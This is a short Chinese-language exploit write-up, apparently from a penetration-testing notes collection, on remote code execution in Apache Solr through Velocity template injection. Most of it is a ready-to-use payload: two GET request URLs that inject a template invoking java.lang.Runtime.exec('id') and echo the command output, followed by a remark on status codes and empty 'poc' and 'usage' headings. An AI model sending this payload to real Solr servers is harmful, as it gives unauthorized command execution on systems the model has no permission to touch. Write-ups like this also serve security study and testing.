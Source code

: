 **BurpSuite response**

```
HTTP/1.1 200 OK
Connection: close
Content-Type: application/json;charset=utf-8
Content-Length: 149 `{

“responseHeader”:{

“status”:0,

“QTime”:554},

“WARNING”:“This response format is experimental.  It is likely to change in the future.”}` 
```

**开启后，直接Get 访问（带入表达式）进行 远程代码命令执行**

```
http://www.0-sec.org:8983/solr/atom/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end 
```

**ssit**

```
http://www.0-sec.org:8983/solr/atom/select?q=1&&wt=velocity&v.template=custom&v.template.custom=
#set($x='') #set($rt=$x.class.forName('java.lang.Runtime')) #set($chr=$x.class.forName('java.lang.Character')) #set($str=$x.class.forName('java.lang.String')) #set($ex=$rt.getRuntime().exec('id')) $ex.waitFor() #set($out=$ex.getInputStream()) #foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end 
```

![image](../img/ff222d26142792fc67eae7899f6af077.png)

注意到 状态码是`400`，`而不是200`，出现`500`的情况可能是 异常报错。

### poc

**usage**
